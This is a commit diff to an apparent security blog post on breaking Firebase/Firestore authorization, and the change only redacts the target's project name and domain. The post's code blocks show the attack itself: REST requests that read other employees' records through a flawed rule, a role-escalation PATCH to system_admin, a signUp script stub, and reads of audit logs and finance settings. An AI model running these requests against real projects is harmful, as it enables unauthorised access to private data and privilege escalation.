

Before and after one commit to SaifSalah/saifsalah.github.io, a Jekyll site: the page built from _posts/2026-09-01-breaking-firebase-authorization.md, in a window 1280 px wide and 1400 px high, scrolled down 10732 px. Shown: the part 152-1066 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2026-09-01-breaking-firebase-authorization.md

````diff
--- a/_posts/2026-09-01-breaking-firebase-authorization.md
+++ b/_posts/2026-09-01-breaking-firebase-authorization.md
@@ -72,11 +72,11 @@ HTTP/2 200 OK
 I don't like guessing collection names, so I pulled the bundles and read them. Grabbed the HTML, pulled the script paths, then fetched each one:
 
 ```bash
-curl -s https://***-security-reports.web.app/ -o index.html
+curl -s https://<DOMAIN>/ -o index.html
 grep -oE '(src|href)="[^"]+"' index.html
 
-curl -s "https://***-security-reports.web.app/js/app.js?v=2.35.9"       -o app.js
-curl -s "https://***-security-reports.web.app/js/firestore.js?v=2.35.9" -o firestore.js
+curl -s "https://<DOMAIN>/js/app.js?v=2.35.9"       -o app.js
+curl -s "https://<DOMAIN>/js/firestore.js?v=2.35.9" -o firestore.js
 
 etc...
 ```
@@ -149,7 +149,7 @@ HTTP/2 200 OK
 Now read a doc whose ID does **not** match my prefix:
 
 ```http
-GET /v1/projects/***-security-reports/databases/(default)/documents/employees/uGxv4a8REDACTED HTTP/2
+GET /v1/projects/<REDACTED>/databases/(default)/documents/employees/uGxv4a8REDACTED HTTP/2
 Host: firestore.googleapis.com
 Authorization: Bearer eyJhbGciOi...REDACTED
 ```
@@ -164,7 +164,7 @@ HTTP/2 403 Forbidden
 And a doc whose ID **does** match my prefix (`1000`):
 
 ```http
-GET /v1/projects/***-security-reports/databases/(default)/documents/employees/1000 HTTP/2
+GET /v1/projects/<REDACTED>/databases/(default)/documents/employees/1000 HTTP/2
 Host: firestore.googleapis.com
 Authorization: Bearer eyJhbGciOi...REDACTED
 ```
@@ -189,7 +189,7 @@ I can read any employee I name, but I need real numbers, and I need to know whic
 The `announcements` collection was readable by any logged in user, and each announcement had its author's employee ID on it. So I ran a query against it and looked at the `authorId` values that came back:
 
 ```http
-POST /v1/projects/***-security-reports/databases/(default)/documents:runQuery HTTP/2
+POST /v1/projects/<REDACTED>/databases/(default)/documents:runQuery HTTP/2
 Host: firestore.googleapis.com
 Authorization: Bearer eyJhbGciOi...REDACTED
 Content-Type: application/json
@@ -205,7 +205,7 @@ Two IDs kept coming back as the authors of system wide notices. Good sign those
 import requests
 
 API_KEY = "AIzaSy‑‑REDACTED"
-PROJECT = "***-security-reports"
+PROJECT = "<REDACTED>"
 
 SIGNUP = f"https://identitytoolkit.googleapis.com/v1/accounts:signUp?key={API_KEY}"
 BASE   = f"https://firestore.googleapis.com/v1/projects/{PROJECT}/databases/(default)/documents"
@@ -312,7 +312,7 @@ HTTP/2 400 Bad Request
 Second idea, if I can read employee docs, maybe I can write one. Let me just PATCH my own doc's roles to `system_admin`:
 
 ```http
-PATCH /v1/projects/***-security-reports/databases/(default)/documents/employees/uGxv4a8REDACTED?updateMask.fieldPaths=roles HTTP/2
+PATCH /v1/projects/<REDACTED>/databases/(default)/documents/employees/uGxv4a8REDACTED?updateMask.fieldPaths=roles HTTP/2
 Host: firestore.googleapis.com
 Authorization: Bearer eyJhbGciOi...REDACTED
 Content-Type: application/json
@@ -438,7 +438,7 @@ The header shows the admin's name with a little crown, and the dashboard is now
 With admin context, I confirmed reads on the stuff that was locked before, audit logs, the full reports collection, `settings/finance`, all of it:
 
 ```http
-GET /v1/projects/***-security-reports/databases/(default)/documents/auditLogs?pageSize=25 HTTP/2
+GET /v1/projects/<REDACTED>/databases/(default)/documents/auditLogs?pageSize=25 HTTP/2
 Host: firestore.googleapis.com
 Authorization: Bearer eyJ...REDACTED (15144-prefix token)
 ```
@@ -449,7 +449,7 @@ HTTP/2 200 OK
 {
   "documents": [
     {
-      "name": "projects/***-security-reports/databases/(default)/documents/auditLogs/REDACTED",
+      "name": "projects/<REDACTED>/databases/(default)/documents/auditLogs/REDACTED",
       "fields": {
         "action":    { "stringValue": "FINANCE_TOPIC_CREATED" },
         "actorId":   { "stringValue": "15144" },
@@ -462,7 +462,7 @@ HTTP/2 200 OK
 ```
 
 ```http
-GET /v1/projects/***-security-reports/databases/(default)/documents/settings/finance HTTP/2
+GET /v1/projects/<REDACTED>/databases/(default)/documents/settings/finance HTTP/2
 Host: firestore.googleapis.com
 Authorization: Bearer eyJ...REDACTED (15144-prefix token)
 ```
@@ -471,7 +471,7 @@ Authorization: Bearer eyJ...REDACTED (15144-prefix token)
 HTTP/2 200 OK
 
 {
-  "name": "projects/***-security-reports/databases/(default)/documents/settings/finance",
+  "name": "projects/<REDACTED>/databases/(default)/documents/settings/finance",
   "fields": {
     "iqdRate": { "integerValue": "1320" },
     "usdRate": { "integerValue": "13" }
````
